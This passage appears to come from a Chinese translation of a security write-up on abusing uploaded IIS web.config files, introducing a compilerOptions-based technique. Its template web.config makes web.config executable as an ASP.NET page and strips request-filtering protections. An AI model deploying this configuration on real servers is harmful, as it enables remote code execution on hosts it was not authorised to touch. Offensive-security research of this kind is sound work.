 ```plain
Response.write("<!-"&"-")
%>
-->
```

其他模块（例如用于PHP的模块）也可以在允许时进行类似地使用。 但是，在正确配置IIS应用程序时，我们通常无法运行除`.NET`代码之外的任何内容。 因此，我将引入更多技术。

#### 2.1 错误使用compilerOptions属性

我将使用以下web.config文件作为基本模板：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.web>
        <httpRuntime targetFramework="4.67.1"/>
        <compilation tempDirectory="" debug="True" strict="False" explicit="False" batch="True"
            batchTimeout="900" maxBatchSize="1000" maxBatchGeneratedFileSize="1000" numRecompilesBeforeAppRestart="15"
            defaultLanguage="c#" targetFramework="4.0" urlLinePragmas="False" assemblyPostProcessorType="">

            <assemblies>

            </assemblies>

            <expressionBuilders>

            </expressionBuilders>

            <compilers>
                <compiler language="c#"
                    extension=".cs;.config"
                    type="Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
                    warningLevel="4" 
                    compilerOptions=''/>
            </compilers>
        </compilation>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" resourceType="File" requireAccess="Script" preCondition="integratedMode" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```
